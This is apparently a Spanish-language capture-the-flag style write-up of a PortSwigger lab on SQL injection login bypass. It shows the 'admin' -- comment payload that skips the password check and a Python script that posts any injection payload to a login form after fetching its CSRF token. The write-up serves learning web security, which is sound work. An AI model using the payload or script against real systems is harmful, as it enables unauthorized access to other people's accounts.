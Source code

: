 ```yaml
---
title: "02 Write-up: SQL injection vulnerability allowing login bypass"
collection: publications
category: portswigger
permalink: publications/SQLi/02_SQL_injection_vulnerability_allowing_login_bypass
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión. Para resolver el laboratorio, realizamos un ataque de inyección SQL que elude la autenticación y nos permite iniciar sesión en la aplicación como usuario administrador.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection vulnerability allowing login bypass'
---
```


![logo]({{site.url}}/images/SQLi/sqli-2/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/lab-login-bypass>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-2/descripcion.png)

## Analisis del entorno
Insertamos la comilla simple `'` en el campo de usuario y en el campo de password `password`. 

![Pruebas]({{site.url}}/images/SQLi/sqli-2/Prueba_1.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a:

```sql
SELECT * FROM users WHERE username = ''' AND password = 'password'
```

El backend trata de realizar la consulta previamente resalizada y nos arroja un error ya que es un error de sintaxis.

![Error]({{site.url}}/images/SQLi/sqli-2/error.png)

Necesitamos acomodar esta consulta para que pueda funcionar. Vamos a realizar la consulta para un usuario y comentamos la demas sentencia, quedaria algo asi:

```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password'
```

![Login_1]({{site.url}}/images/SQLi/sqli-2/login_1.png)

Si el usuario `admin` no existe nos arrojara un error y se muestra en pantalla, toca ingresar un usuario valido.

![Error_2]({{site.url}}/images/SQLi/sqli-2/error 2.png)

Probamos con un usuario valido y vemos que nos hace la redirección y solventa el laboratorio

![Login_2]({{site.url}}/images/SQLi/sqli-2/login_2.png)

Lo que envia Burpsuite es en url encode:

![Envio de dato]({{site.url}}/images/SQLi/sqli-2/Respuesta desde Burpsuite.png)

Aprobado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-2/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    r = s.get(url, verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input")['value']
    print(csrf)
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf":csrf,
            "username": payload,
            "password": "randomtext"
            }
    r = s.post(url, data=data, verify=False, proxies=proxies)
    res = r.text
    if "Log out" in res:
        return True
    else:
        return False


if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
        sqli_payload =  sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print('[-] Example: %s www.example.com "1=1"' % sys.argv[0])

    s = requests.Session()

    if exploit_sqli(s, url, sqli_payload):
        print('[+] SQL injection succesfull! We have logged in as the administrator user.')
    else:
        print('[-] SQL injection unsuccesful.')
```